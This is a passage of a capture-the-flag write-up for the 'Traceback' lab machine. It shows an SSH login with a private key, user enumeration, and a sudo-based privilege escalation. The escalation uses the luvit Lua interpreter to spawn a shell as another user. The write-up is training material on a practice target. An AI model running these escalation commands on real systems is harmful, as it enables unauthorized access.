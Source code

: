 ```bash
[vibhu@parrot]─[~/.ssh]$ ssh -i id_rsa webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Jul  7 10:17:41 2020 from 10.10.14.166
webadmin@traceback:~$ whoami && id
webadmin
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
webadmin@traceback:~$
```

We get a note in `home/webadmin`

```bash
webadmin@traceback:~$ ls
note.txt
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I am sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
webadmin@traceback:~$
```

# Privilege Escalation:~$

## webadmin -> sysadmin

Looks like sysadmin has left something related to lua language for us in his home directory

After some enumertaion I saw we can use [GTFObins](https://gtfobins.github.io/) to do priv esec

So final command would be

> sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
